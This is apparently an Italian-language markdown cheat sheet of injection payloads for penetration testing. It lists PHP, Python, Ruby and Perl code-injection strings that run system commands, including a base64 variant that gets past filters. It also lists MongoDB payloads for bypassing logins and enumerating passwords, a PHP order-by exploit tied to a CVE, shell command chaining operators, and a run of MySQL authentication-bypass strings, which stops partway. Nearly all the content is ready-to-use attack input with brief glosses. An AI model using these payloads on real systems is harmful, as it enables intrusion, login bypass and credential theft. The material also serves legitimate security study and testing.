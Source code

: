 # Injection

- ### Code execution/injection
    - **commentare** e inserire il nuovo codice
        - PHP: `//`
        - SQL: `/* */`
        - MySQL: `-- `
        - Some SQL: `#`
        - MongoDB: `%00`,`//`, `<!--`
    - NoSQL:
        - MongoDB:
            - `username=admin' || 1==1 %00&password=whatever&submit=Submit`
            - `username' && this.password%00` (determina se il campo password esiste)
            - `username' && this.password && this.password.match(/.*/)%00` (determina se la password esiste e corrisponde al wildcard)
            - - `username' && this.password && this.password.match(/^[char].*$/)%00` (enumerazione della password)
    - **concatenazione** al fine di inserire codice:
        - Ruby: `+` >> ``"+`[COMMAND]`+"``
        - PHP: `. +` >> `/?name=".system('id');//"`
        - Python: `+` >> `/hello/hacker"+str(os.popen('id').read())+"`
            - (importare il modulo) >> `/hello/hacker"+str(__import__('os').popen('id').read())+"` 
            - (`/` blacklisted) >> `/hello/hacker"+str((__import__('os').popen(__import__('base64').b64decode('[BASE64 ENCODED COMMAND]').decode())).read())+"`
        - Perl: `.` >> ``/cgi-bin/hello?name=hacker'.`id`.'a``
    - **ordinamento** exploit:
        - PHP:
            - `/?order=id);}system('whoami');//` - [CVE-2008-4096]
    - **regex cerca/sostituisci**:
        - PHP
            - `/?new=system('id')&pattern=/replacement/e&base=Hello%20user` (paramentro /e, PHP valuta argomento prima della sostituzione)      
    - **funzioni legacy**
        - PHP
            - _[assert()](https://www.php.net/manual/en/function.assert.php)_: `/?name=hacker'.system('id').'`
- ### Command Execution  
    - Linux:
        - `command1 && command2 that will run command2 if command1 succeeds.`  
        `command1 || command2 that will run command2 if command1 fails.`  
        `command1 ; command2 that will run command1 then command2.`  
        `command1 | command2 that will run command1 and send the output of command1 to command2.`  
        `$(injected command)`  
        `` \`injected command\` ``

- ### SQL Injection
    MySql: 
    ```
    ' OR 1=1 -- 
    ' OR '1'='1
    ' OR '1'='1' -- 
    ') OR 1=1 -- 
    " OR 1=1 -- 
    " OR "1"="1
    " OR "1"="1" -- 
    ") OR 1=1 -- 
    ' OR 1=1 LIMIT 1 -- 
     OR '1'='1' LIMIT 1 -- 
    ') OR 1=1 LIMIT 1 -- 
    ') OR '1'='1' LIMIT 1 -- 
    ')OR('1'='1    
    ')||1#
    '||1#
    ')OR(1=1)#